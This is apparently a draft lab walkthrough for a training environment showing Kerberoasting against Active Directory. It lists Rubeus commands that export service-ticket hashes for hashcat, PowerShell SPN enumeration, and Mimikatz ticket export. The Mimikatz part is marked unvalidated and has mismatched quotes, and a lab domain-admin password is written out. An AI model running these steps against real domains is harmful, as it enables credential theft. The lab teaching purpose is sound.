 # Common Kerberoasting

RYAN> Fill this all out and make it purty, boyfriend!!!

BRANDON> Just commands for now, but this is what I'll be running :).


At this point you should still be RDP'd to TWORIVERS from the attack machine. On TWORIVERS, do the following:

## Kerberoasting via Rubeus

1. Use RunAs to run a PowerShell prompt as `WHEEL\Administrator`:
    1. Start menu -> type `run` -> click "Run (App)" -> Enter `runas /user:wheel\Administrator powershell.exe` -> Enter/Click OK
    - You will be prompted to `Enter the password for wheel\Administrator:`, at point you will enter the account's password:
        - `12qwaszx!@QWASZX`
    
    A new PowerShell prompt with the title `Administrator: powershell.exe (running as wheel\Administrator` will open. Good!

    Now that we are running PowerShell as a domain admin, let's enumerate AD!

1. Extract Rubeus:
    ```
    cd C:\Users\Public\Desktop\LAB_FILES\assets\
    expand-archive ./Rubeus-1.6.4.zip
    cd .\Rubeus-1.6.4\Rubeus-1.6.4\
    ```

1. Perform a Kerberoasting attack using Rubeus:
    1. `./rubeus.exe kerberoast /ldapfilter:'admincount=1' /format:hashcat /outfile:C:\Perflogs\hashes.txt`

WHOOPS!!! Need .NET Framework 3.5!


---------------not validated/done------------------------

## Kerberoasting via Mimikatz

1. In PowerShell:
    
    ```
    "get-aduser -filter * -properties ServicePrincipalName | Select SamAccountName, ServicePrincipalName | where {$_.ServicePrincipalName -ne $null} | fl
    ```

    ```
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList ""VULN SPN GOES HERE"""
    ```

1. In Mimikatz:

    ```
    privilege::debug
    log m2.txt
    kerberos::list /export"
    ```
